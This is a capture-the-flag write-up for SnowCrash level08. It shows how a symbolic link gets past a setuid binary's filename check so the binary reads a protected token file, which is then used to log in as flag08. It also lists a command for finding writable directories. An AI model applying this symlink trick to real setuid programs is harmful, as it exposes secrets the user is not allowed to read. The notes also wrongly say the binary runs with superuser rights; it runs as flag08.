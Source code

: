 ### binary

a binary named level08 and file named token are present in the home
both files are owned by flag08 but the binary is executable by level08
-> it takes a file as parameter and echo the contents of that file. It refuses a file named 'token'
we can assume it can read the content of the token file but reject its name -> rename token file without permission to read
the size of the token file indicates that it can be the flag for level08

-> read it with symbolic links 


```ln -s ~/token /tmp/file```
```./level08 /tmp/file``` = token

```su level09``` doesn't work with this token => ```su flag08``` -> ```getflag``` gives the flag for this level



find a folder that can be readable and writable by user :
```find / -writable 2>/dev/null```



### see extended permissions of a file
```getfacl level08 ```
file: level08
owner: flag08
group: level08
flags: ss-
user::rwx
group::---
group:level08:r-x
group:flag08:r-x
mask::r-x
other::---

we can see that the binary is setiud and setgid :
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08

-> it executes with superuser permissions

more info on the subject : https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/